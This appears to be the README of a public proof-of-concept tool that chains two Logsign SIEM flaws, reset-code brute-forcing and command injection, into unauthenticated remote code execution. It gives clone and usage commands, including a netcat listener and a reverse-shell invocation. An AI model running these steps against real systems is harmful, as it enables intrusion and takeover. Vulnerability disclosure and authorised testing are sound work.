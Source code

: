 # Logsign SIEM RCE Exploit (CVE-2024-5716 & CVE-2024-5717)

This tool is a proof-of-concept (PoC) exploit that combines two critical vulnerabilities in the Logsign Unified SecOps Platform (SIEM) to achieve unauthenticated remote code execution (RCE).

## Description

The exploit chains two vulnerabilities:

**CVE-2024-5716 (Authentication Bypass):**  
A flaw in the password reset mechanism allows the 6-digit reset code to be brute-forced without rate limiting. This script uses multi-threading to quickly identify the reset code and reset the admin user's password.

**CVE-2024-5717 (Command Injection):**  
Once logged in as an admin user, the `/api/settings/demo_mode` API endpoint fails to properly validate user input, allowing arbitrary command injection and execution on the target system.

By combining these vulnerabilities, an attacker can gain full control over the target system.

## Features

- Automatically chains CVE-2024-5716 and CVE-2024-5717.
- Resets the admin user's password to gain system access.
- Supports three modes for remote code execution (RCE):
  - **Default PoC**: Executes `id > /tmp/logsign_pwned.txt` on the target system.
  - **Single Command Execution**: Runs a user-specified command.
  - **Reverse Shell**: Establishes an interactive shell session to a specified IP and port.
- Detailed logging for debugging with `--debug` mode.

## Installation and Requirements

**Clone the project files:**

```
git clone https://github.com/sevbandonmez/logsign-rce.git
cd logsign-rce
```

**Install the required Python library:**

```pip install requests```


## Usage
The script can be executed with various command-line arguments.

```
usage: exploit.py [-h] -t TARGET [-rh REVERSE_HOST] [-rp REVERSE_PORT] [-c COMMAND] [-d]

Logsign RCE Exploit Tool

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target URL (e.g., https://example.com:8443)
  -rh REVERSE_HOST, --reverse-host REVERSE_HOST
                        Reverse shell IP address
  -rp REVERSE_PORT, --reverse-port REVERSE_PORT
                        Reverse shell port
  -c COMMAND, --command COMMAND
                        Custom command to execute
  -d, --debug           Enable debug logging
```

### Example 1: Default PoC
This mode creates a file /tmp/logsign_pwned.txt on the target system to prove the vulnerability.

```python3 exploit.py -t https://192.168.1.100```

Check the file on the target system: cat /tmp/logsign_pwned.txt.
### Example 2: Single Command ExecutionRun a single command, such as whoami, on the target system:

```python3 exploit.py -t https://192.168.1.100 -c "whoami"```

### Example 3: Reverse Shell
This mode provides an interactive command-line shell on the target system.

**Step 1:* Start a listener on the attacker's machine using Netcat:**

```nc -lvnp 4444```

**Step 2:* Run the exploit, specifying your IP address and port:**

```python3 exploit.py -t https://192.168.1.100 -rh 192.168.1.20 -rp 4444```

If successful, a shell session will appear in your Netcat listener.

## Debugging
If the script fails or produces unexpected errors, enable detailed logging with the --debug flag:

```python3 exploit.py -t https://192.168.1.100 -rh 192.168.1.20 -rp 4444 --debug```

## Special Thanks
Endless thanks to **@mdisec** for the identified CVE vulnerabilities <3. 

## Legal Disclaimer
This tool is developed solely for authorized security testing and educational purposes. Unauthorized use of this tool for illegal activities is strictly prohibited. Any damage or legal consequences resulting from the use of this tool are the sole responsibility of the user. The developer is not liable for any misuse of this tool.

## LICENSE
This project is licensed under the MIT License. See the LICENSE file for details.

## References
[Logsign Support](https://support.logsign.net/hc/en-us/articles/19316621924754-03-06-2024-Version-6-4-8-Release-Notes)<br>
[Zero Day Inititive](https://www.zerodayinitiative.com/blog/2024/7/1/getting-unauthenticated-remote-code-execution-on-the-logsign-unified-secops-platform)<br>
[Writeup](https://medium.com/@sevbandonmez/zero-day-review-critical-vulnerabilities-in-logsign-unified-secops-platform-versions-6-4-7-69bbec653b3a)
